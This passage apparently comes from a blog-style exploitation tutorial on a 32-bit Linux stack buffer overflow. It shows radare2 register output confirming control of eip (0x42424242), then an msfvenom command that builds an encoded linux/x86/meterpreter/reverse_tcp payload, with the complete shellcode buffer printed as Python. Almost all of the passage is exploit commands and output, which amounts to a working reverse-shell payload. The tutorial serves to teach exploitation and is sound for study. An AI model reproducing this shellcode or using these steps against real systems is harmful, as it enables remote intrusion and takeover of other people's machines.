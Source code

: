 [0x42424242]>
{% endhighlight %}

Now we can see the $eip = 0x42424242 which is 'BBBB' in hex. So now we're sure we control the eip.

Lets have a look on the Stack and CPU registers

{% highlight shell-session %}
[0x42424242]> drr
   eax 0x00000029  eax ascii
   ebx 0x00000000  ebx
   ecx 0xfbad0084  ecx
   edx 0xb7f9d870  (unk0) edx R W X 'add byte [eax], al' 'unk0'
   esi 0x00000001  esi
   edi 0xb7f9c000  (/lib/i386-linux-gnu/libc-2.25.so) edi library R W X 'mov al, 0x9d' 'libc-2.25.so'
   esp 0xbffff6a0  esp stack R W X 'inc ebx' '[stack]' (CCCCCCCCCCCCCCCCCC...CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC)
   ebp 0x41414141  ebp ascii
   eip 0x42424242  eip ascii
   xfs 0x00000000  ebx
   xgs 0x00000033  ascii
   xcs 0x00000073  ascii
   xss 0x00000073  ascii
eflags      1PZIV  eflags
  oeax 0xffffffff  oeax
{% endhighlight %}

- drr debug register references (telescoping)

{% highlight shell-session %}
$ msfvenom -p linux/x86/meterpreter/reverse_tcp  -e x86/shikata_ga_nai -b '\x00' -n 26 -i 3 -f python
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 150 (iteration=0)
x86/shikata_ga_nai succeeded with size 177 (iteration=1)
x86/shikata_ga_nai succeeded with size 204 (iteration=2)
x86/shikata_ga_nai chosen with final size 204
Successfully added NOP sled from x86/single_byte
Payload size: 230 bytes
Final size of python file: 1110 bytes
buf =  ""
buf += "\x3f\x4a\x2f\x40\x3f\xf5\x4a\x92\xfc\x91\xf5\x41\x99"
buf += "\x27\xfc\x27\xf9\x37\x42\x3f\xf5\x4b\x48\x2f\x9f\x49"
buf += "\xb8\x23\x55\x58\xf9\xd9\xc4\xd9\x74\x24\xf4\x5e\x31"
buf += "\xc9\xb1\x2d\x83\xee\xfc\x31\x46\x0f\x03\x46\x2c\xb7"
buf += "\xad\x23\xf5\x8d\x98\x35\xeb\x2e\xfd\xc2\x2f\x25\xa6"
buf += "\x1b\xe6\x74\x71\x6d\xa8\x6f\x7d\xdd\x51\x13\x69\x21"
buf += "\x55\x07\xc6\xaf\x3e\xbc\x83\x03\x58\x39\xc9\xe3\x32"
buf += "\x1b\xaf\xa5\xe1\x25\x37\x07\xb3\xd3\xa3\x99\xe0\x9b"
buf += "\x92\x21\x92\xa2\x33\xf4\x0e\x36\x40\x6f\x45\x03\x12"
buf += "\x7b\xd3\xdf\x01\xfe\xab\xf9\xe6\x92\x26\x52\xde\xee"
buf += "\xf6\x4c\xec\x61\x75\xd5\x78\x76\x88\x76\x6a\x67\x8b"
buf += "\x55\x89\xf5\x37\x69\x7c\x94\x49\xf9\x29\x13\x8f\x46"
buf += "\xde\x06\xe7\xf4\x8d\x0c\x49\x0c\xcc\x21\x4c\xcd\xab"
buf += "\xd2\x25\xee\x3e\xb7\x7a\xce\x09\x57\xe8\x17\x75\x7f"
buf += "\xbd\x85\xce\x1f\x92\x9d\x0a\x23\xaf\xf1\x36\x87\x48"
buf += "\xc0\xc3\x5d\xb8\x38\xc1\xab\x0e\xfc\x0b\x8f\xce\x8d"
buf += "\x73\x8c\x45\x2e\xb2\x1f\x0d\x27\xc4\xe2\x98\xbd\xfd"
buf += "\xe9\x64\xd4\xfc\xd0\xbf\x3f\x81\x84"

{% endhighlight %}
